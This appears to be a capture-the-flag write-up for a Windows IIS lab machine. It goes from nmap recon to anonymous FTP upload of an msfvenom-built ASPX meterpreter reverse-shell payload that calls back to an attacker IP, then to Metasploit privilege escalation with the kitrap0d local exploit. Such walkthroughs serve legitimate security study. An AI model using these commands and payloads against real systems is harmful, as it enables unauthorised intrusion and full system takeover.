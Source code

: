# Recon
```
└─$ nmap -sC -sV 10.10.10.5
Starting Nmap 7.93 ( https://nmap.org ) at 2023-08-01 19:27 EEST
Stats: 0:00:48 elapsed; 0 hosts completed (1 up), 1 undergoing Connect Scan
Connect Scan Timing: About 91.30% done; ETC: 19:28 (0:00:04 remaining)
Stats: 0:01:17 elapsed; 0 hosts completed (1 up), 1 undergoing Script Scan
NSE Timing: About 98.23% done; ETC: 19:29 (0:00:00 remaining)
Nmap scan report for 10.10.10.5
Host is up (1.6s latency).
Not shown: 998 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     Microsoft ftpd
| ftp-syst: 
|_  SYST: Windows_NT
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 03-18-17  02:06AM       <DIR>          aspnet_client
| 03-17-17  05:37PM                  689 iisstart.htm
| 08-01-23  10:36AM                 2909 reversesh.aspx
|_03-17-17  05:37PM               184946 welcome.png
80/tcp open  http    Microsoft IIS httpd 7.5
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: IIS7
|_http-server-header: Microsoft-IIS/7.5
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 79.62 seconds
```
- we try to access ftp
- username: anonymous password: **just press enter** and we got acces to the server listing the server there are .aspx so asp.net can be attack vector
- we the put command to uplaod something to the server and yes we can
- we can try to upload asp webshell
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.16.5 LPORT=444 -f aspx > devel.aspx
```
- go to msfconsole run
- use multi/handler
- set payload set payload payload/windows/meterpreter/reverse_tcp
- go to 10.10.10.5/devel.aspx
- go back to metasploit and we got a shell as Server username: IIS APPPOOL\Web
# privilage escalation
- Navigating to c:\windows\TEMP as large portion of Metasploit’s Windows privilege escalation modules require a file to be written to the target during exploitation
- sysinfo we know that machine is x86
- run local_exploit_suggester -> run post/multi/recon/local_exploit_suggester
- gave us some to try, now background the session
- ```
  use exploit/windows/local/ms10_015_kitrap0d
  ```
  
- set session to one and exploit and we get shell as nt authority

